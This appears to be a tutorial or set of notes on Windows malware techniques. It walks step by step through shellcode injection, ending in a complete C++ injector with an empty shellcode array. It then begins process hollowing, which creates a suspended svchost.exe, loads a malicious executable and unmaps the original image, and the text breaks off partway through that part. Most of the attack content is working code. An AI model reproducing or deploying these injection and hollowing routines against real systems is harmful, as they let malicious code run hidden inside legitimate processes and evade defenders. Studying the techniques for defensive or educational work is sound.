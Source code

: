 
### Shellcode Injection
To inject and execute shellcode, these steps are required:
1. Open a target with all access rights. (Usually as the same user)
2. Allocate target process memory for the shellcode
3. Write shellcode to the allocated memory in the target process.
4. Execute the shellcode in the target process memory.

To find a target process, make sure it is used by the target user. To check the user running the program, use:
```
Task Manager --> Details --> User Name
```

In C++, these steps can be achieved using the Windows API.
Step 1:
The Windows C++ API has the `OpenProcess()` function:
```cpp
processHandle = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process ID supplied by command-line arguments 
);
```

Step 2:
To allocate memory in the target process, the `VirtualAlloc()` function is used.
```cpp
remoteBuffer = VirtualAllocEx(
	processHandle, // Opened target process
	NULL, 
	sizeof shellcode, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Step 3:
For writing to the memory, use the `WriteProcessMemory()`:
```cpp
WriteProcessMemory(
	processHandle, // Opened target process
	remoteBuffer, // Allocated memory region
	shellcode, // Data to write
	sizeof shellcode, // byte size of data
	NULL // Optional value to recieve the amount of bytes written. Unnecessary in this case
);
```

Step 4:
To create a thread seperate from the program, but using the allocated memory.
```cpp
remoteThread = CreateRemoteThread(
	processHandle, // Opened target process
	NULL,  // No security descriptors
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Run immediately after creation
	NULL
);
```
Putting it all together:
```cpp
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] = "";

int main(int argc, char *argv[]) {
    HANDLE h_process = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (atoi(argv[1])));
    PVOID b_shellcode = VirtualAllocEx(h_process, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(h_process, b_shellcode, shellcode, sizeof shellcode, NULL);
    HANDLE h_thread = CreateRemoteThread(h_process, NULL, 0, (LPTHREAD_START_ROUTINE)b_shellcode, NULL, 0, NULL);
}
```

### Process hollowing
Process hollowing has a few differences to shellcode injection. It's a lot more complex, but also a lot more useful, as it tricks the original process into running malicious code, instead of having to create a custom new thread.

Process hollowing at a high level is a six-step process:
1. Create a target process in a suspended state
2. Open a malicious image
3. Un-map legitimate code from process memory
4. Allocate memory for the malicious code, and write each section into the address space.
5. Set the entrypoint for the malicious code
6. Take the target process out of the suspended state

For the first step, any arbitrary executable can be ran:
```cpp
LPSTARTUPINFOA target_si = new STARTUPINFOA(); // Defines station, desktop, handles, and appearance of a process
LPPROCESS_INFORMATION target_pi = new PROCESS_INFORMATION(); // Information about the process and primary thread
CONTEXT c; // Context structure pointer

if (CreateProcessA(
	(LPSTR)"C:\\\\Windows\\\\System32\\\\svchost.exe", // Name of module to execute
	NULL,
	NULL,
	NULL,
	TRUE, // Handles are inherited from the calling process
	CREATE_SUSPENDED, // New process is suspended
	NULL,
	NULL,
	target_si, // pointer to startup info
	target_pi) == 0) { // pointer to process information
	cout << "[!] Failed to create Target process. Last Error: " << GetLastError();
	return 1;
```

In the second step, open the file for reading, and allocate memory for it.
```cpp
HANDLE hMaliciousCode = CreateFileA(
	(LPCSTR)"C:\\\\Windows\\\\Temp\\\\suspicious.exe", // Name of image to obtain
	GENERIC_READ, // Read-only access
	FILE_SHARE_READ, // Read-only share mode
	NULL,
	OPEN_EXISTING, // Instructed to open a file or device if it exists
	NULL,
	NULL
);

DWORD maliciousFileSize = GetFileSize(
	hMaliciousCode, // Handle of malicious image
	0 // Returns no error
);
// PVOID is a void pointer.
PVOID pMaliciousImage = VirtualAlloc(
	NULL,
	maliciousFileSize, // File size of malicious image
	0x3000, // Reserves and commits pages (MEM_RESERVE | MEM_COMMIT)
	0x04 // Enables read/write access (PAGE_READWRITE)
);
```
Then, read the file, sending the output to the allocated memory region.
```cpp
DWORD numberOfBytesRead; // Stores number of bytes read

if (!ReadFile(
	hMaliciousCode, // Handle of malicious image
	pMaliciousImage, // Allocated region of memory
	maliciousFileSize, // File size of malicious image
	&numberOfBytesRead, // Number of bytes read
	NULL
	)) {
	cout << "[!] Unable to read Malicious file into memory. Error: " <<GetLastError()<< endl;
	TerminateProcess(target_pi->hProcess, 0);
	return 1;
}

CloseHandle(hMaliciousCode);
```

In the third step, the process memory will be hollowed. To do this, the 
```cpp
c.ContextFlags = CONTEXT_INTEGER; // Only stores CPU registers in the pointer
GetThreadContext(
	target_pi->hThread, // Handle to the thread obtained from the PROCESS_INFORMATION structure
	&c // Pointer to store retrieved context
); // Obtains the current thread context

PVOID pTargetImageBaseAddress; 
ReadProcessMemory(
	target_pi->hProcess, // Handle for the process obtained from the PROCESS_INFORMATION structure
	(PVOID)(c.Ebx + 8), // Pointer to the base address
	&pTargetImageBaseAddress, // Store target base address 
	sizeof(PVOID), // Bytes to read 
	0 // Number of bytes out
);
```

```cpp
HMODULE hNtdllBase = GetModuleHandleA("ntdll.dll"); // Obtains the handle for ntdll
pfnZwUnmapViewOfSection pZwUnmapViewOfSection = (pfnZwUnmapViewOfSection)GetProcAddress(
	hNtdllBase, // Handle of ntdll
	"ZwUnmapViewOfSection" // API call to obtain
); // Obtains ZwUnmapViewOfSection from ntdll

DWORD dwResult = pZwUnmapViewOfSection(
	target_pi->hProcess, // Handle of the process obtained from the PROCESS_INFORMATION structure
	pTargetImageBaseAddress // Base address of the process
);
```